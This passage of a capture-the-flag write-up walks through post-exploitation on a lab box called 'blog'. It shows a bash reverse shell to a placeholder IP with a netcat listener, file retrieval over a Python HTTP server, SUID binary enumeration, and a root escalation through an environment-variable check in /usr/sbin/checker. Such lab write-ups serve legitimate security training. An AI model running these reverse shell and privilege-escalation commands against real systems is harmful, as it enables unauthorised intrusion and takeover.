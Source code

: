 ```bash

meterpreter > getuid
Server username: www-data (33)
```
then in `meterpreter` we can get a normal system shell using the command `shell`. I prefer using a non meterpreter relient shell, so I started a reverse shell call back to my system:
```bash
bash -i >& /dev/tcp/YOUR_IP/8888 0>&1
```
and I started a `netcat` listener in a different terminal tab -> `nc -lvnp 8888`

Time to look for flags :)

## USER

Searching around a bit, I found `/home/bjoel` and a file called `user.txt`:
```bash
www-data@blog:/home/bjoel$ cat user.txt 
You won't find what you're looking for here.

TRY HARDER
```
There was also a pdf, about Joel's termination, we can get that by starting a simple http server with python3 `python3 -m http.server 8888`, but nothing interesting there. 

## PRIVESC

My next thought was about privesc, so I ran two `find` commands:
```bash
find / -type f -user bjoel -perm /4000 2>/dev/null
```
^ This proved fruitless, but I did find a lot of root SUID binaries. 
```bash
find / -type f -user root -perm /4000 2>/dev/null
```
Most of them were normal, except for `/usr/sbin/checker`. Time for good ol' GTFObins! And alas, nothing there, so let's just execute it.

```
Not an Admin.
```
Alright, so I tried using `bash -p /usr/sbin/checker`, but that was obviously stupid and didn't work. 

Next up, `ltrace`:
```bash
www-data@blog:/$ ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```
Awesome! The binary checks if the enviroment variable `admin` is set, so by using `export admin=admin` and then running `checker` we get to root!
```bash
www-data@blog:/$ export admin=admin
www-data@blog:/$ /usr/sbin/checker 
root@blog:/# whoami
root
```
Now we can get the flags! `root.txt` is in `/root`, as it should be. Now all that is left is to `find` the `user.txt` flag, think you can do it? :)
